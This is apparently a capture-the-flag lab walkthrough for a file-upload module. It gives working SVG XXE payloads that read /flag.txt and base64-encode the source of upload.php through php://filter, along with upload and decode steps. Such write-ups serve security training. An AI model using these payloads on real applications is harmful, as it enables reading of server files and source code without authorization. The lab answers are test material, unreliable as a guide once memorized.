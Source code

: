 # Limited File Uploads

#### The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

The application in this section allows to upload a file, and the goal of this exercise is to try to exploit any file upload vulnerability.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To look for the flag we must adapt the script provided along the section:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

Just create a file (`nano xxe.svg`), copy and paste the code above and then hit the **Upload** button.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the image got successfully uploaded, look for the svg file with the **inpect element** too&#x6C;**.**

And the flag should be easily visible!

#### Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

For the second part, in the same application we have another task. This time we have to read the source code of 'upload.php' and identify the uploads directory.

This time we'll the following script:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Like the last time, upload the file and look for the .svg file.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You should see a base64 string within. Copy it and use in the command bellow do decode it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And there it is! We manage to decode it and get the uploads directory!
